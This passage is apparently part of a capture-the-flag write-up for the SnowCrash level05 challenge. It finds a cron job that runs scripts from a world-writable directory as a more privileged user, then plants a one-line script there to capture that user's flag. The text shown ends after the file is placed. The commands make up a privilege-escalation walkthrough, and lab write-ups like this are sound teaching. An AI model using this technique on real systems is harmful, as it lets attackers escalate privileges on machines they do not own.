 Let's investigate how this script gets executed by checking system locations:

```bash
level05@SnowCrash:~$ find / -name level05 2> /dev/null
/var/mail/level05
/rofs/var/mail/level05
```

Checking the mail file:

```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

### Cron Job Analysis

This is a **cron job configuration** that:

- **Schedule**: `*/2 * * * *` - Runs every 2 minutes
- **Command**: `su -c "sh /usr/sbin/openarenaserver" - flag05`
- **Privilege**: Executes as the `flag05` user
- **Effect**: Automatically runs our target script with elevated privileges

## Exploitation Strategy

The attack plan:

1. **Create a malicious script** that executes `getflag`
2. **Place it in `/opt/openarenaserver/`** where the cron job will find it
3. **Redirect output** to a file we can access
4. **Wait for the cron job** to execute our script

### Step 1: Create the Malicious Script

```bash
level05@SnowCrash:~$ echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getflag05
```

This script:

- Executes `/bin/getflag`
- Redirects output to `/tmp/flag05`
- Will run with `flag05` privileges when the cron job executes

### Step 2: Verify File Placement

```bash
level05@SnowCrash:~$ ls -la /opt/openarenaserver/
total 4
drwxrwxr-x+ 2 root    root    60 Jul 18 18:08 .
drwxr-xr-x  1 root    root    60 Jul 18 15:04 ..
-rw-rw-r--+ 1 level05 level05 28 Jul 18 18:08 getflag05
```

Our script is successfully placed and has appropriate permissions.
